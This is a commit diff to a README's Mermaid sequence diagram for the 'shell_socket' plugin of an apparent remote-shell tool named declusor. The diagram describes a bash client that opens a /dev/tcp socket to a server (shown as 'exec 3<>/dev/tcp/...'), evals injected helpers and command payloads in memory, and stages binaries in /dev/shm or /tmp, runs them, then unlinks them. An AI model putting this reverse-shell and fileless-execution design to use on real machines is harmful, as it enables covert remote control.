

Before and after one commit to othon-hugo/declusor: the diagram in plugins/shell_socket/README.md, drawn with Mermaid (dark theme). The commit also changed 3 other files, not shown here.

First line of the commit message:
refactor(shell_socket): simplify and optimize client launcher with stdin isolation and cleanup trap

````diff
--- a/plugins/shell_socket/README.md
+++ b/plugins/shell_socket/README.md
@@ -18,28 +18,28 @@
 ```mermaid
 sequenceDiagram
     autonumber
     participant Server as Declusor Server
     participant FD3 as Remote /dev/tcp FD 3
     participant Bash as Client Execution Loop
 
     Note over Server,Bash: Handshake & Helper Injection
-    Server->>FD3: Connect TCP Socket
+    Server->>FD3: Connect TCP Socket (exec 3<>/dev/tcp/... || exit 1)
     Server->>FD3: Nonce H0 + \x00 + Helper Bundle (util.sh, file.sh) + \x00
-    Bash->>Bash: eval helpers in-memory (no disk write)
-    Bash->>FD3: printf '__DECLUSOR_EOF_%s__\n' "$nonce" >&3
+    Bash->>Bash: eval helpers in-memory (stdin isolated via </dev/null)
+    Bash->>FD3: printf '__DECLUSOR_EOF_%s__\n' "$nonce"
     Server-->>Server: Verify __DECLUSOR_EOF_H0__, Handshake Complete (State: CONNECTED)
 
     loop Command Dispatch Loop
         Server->>FD3: Nonce N_i + \x00 + Command Payload + \x00
-        Bash->>Bash: Read null-delimited nonce and data
+        Bash->>Bash: Read null-delimited nonce and data (read -u 3)
         alt In-Memory Shell Command / Script
-            Bash->>FD3: eval "$data" >&3 2>&3
+            Bash->>FD3: eval "$data" </dev/null (streamed via >&3 2>&1)
         else Native Binary Execution
             Bash->>Bash: Stage to writable exec path (/dev/shm -> /tmp -> /var/tmp)
-            Bash->>FD3: Execute & stream output to >&3 2>&3
+            Bash->>FD3: Execute & stream output (via >&3 2>&1)
             Bash->>Bash: Unlink binary
         end
-        Bash->>FD3: printf '__DECLUSOR_EOF_%s__\n' "$nonce" >&3
+        Bash->>FD3: printf '__DECLUSOR_EOF_%s__\n' "$nonce"
         Server-->>Server: Detect __DECLUSOR_EOF_N_i__, yield chunks to REPL
     end
 ```
````
